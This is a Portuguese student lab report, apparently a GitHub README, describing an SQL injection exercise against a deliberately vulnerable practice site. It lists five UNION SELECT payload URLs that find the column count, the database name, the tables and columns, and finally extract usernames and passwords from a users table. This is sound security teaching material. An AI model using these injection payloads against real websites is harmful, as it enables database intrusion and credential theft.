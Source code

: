 # SQL Injection
## Relatório da Prática

Para realizar a prática, segui as questões propostas no [tutorial](https://github.com/leojaimesson/tutorial-sql-injection#pr%C3%A1tica).
O tutorial disponibilizar uma página online para realizar os ataques: `http://testphp.vulnweb.com/listproducts.php?cat=1`

 1. Descobrir quantidade de colunas.
	Para descobrir a quantidade de colunas que a tabela do alvo possui foi utilizado os seguintes comandos `union select {numero}`. Assim, a quantidade de colunas foi descoberta através do seguinte comando:
    > `http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,2,3,4,5,6,7,8,9,10,11`
    
    ![Ataque com sucesso](https://github.com/SamuelIGT/information-security/blob/master/Praticas/SQL%20Injection/screenshots/1.PNG)
    
2. Descobrir nome do banco
	O segundo passo foi descobrir o nome do banco. Para isso, foi utilizado o comando `database()` dentro da consulta. O nome do banco foi encontrado através do seguinte comando:
	> `http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,2,3,4,5,6,database(),8,9,10,11 `
    
    ![2](https://github.com/SamuelIGT/information-security/blob/master/Praticas/SQL%20Injection/screenshots/2.PNG)
	
3. Descobrir quais são as tabelas do banco
	Para descobrir quais os nomes das tabelas que o banco possui, foi utilizado o seguinte comando:
    > `http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,2,3,4,5,6,table_name,8,9,10,11 from information_schema.tables where table_schema = "acuart"`
	
    ![3](https://github.com/SamuelIGT/information-security/blob/master/Praticas/SQL%20Injection/screenshots/3.PNG)

4. Descobrir os usuários.
	Após ter descoberto a existência da tabela 'users', foi injetado um comando para descobrir os usuários do banco. O seguinte comando realiza a ação:
	> `http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,2,3,4,5,6,column_name,8,9,10,11 from information_schema.columns where table_schema = "acuart" and table_name = "users" `

    
    ![4](https://github.com/SamuelIGT/information-security/blob/master/Praticas/SQL%20Injection/screenshots/4.PNG)

5. Buscar usuário e senha.
	Com os nomes das colunas da tabela 'users' descobertos, para buscar o usuário e senha bastou injetar o seguinte comando:
	> `http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,2,3,4,5,6,concat(uname,"-",pass),8,9,10,11 from users `

    
    ![5](https://github.com/SamuelIGT/information-security/blob/master/Praticas/SQL%20Injection/screenshots/5.PNG)
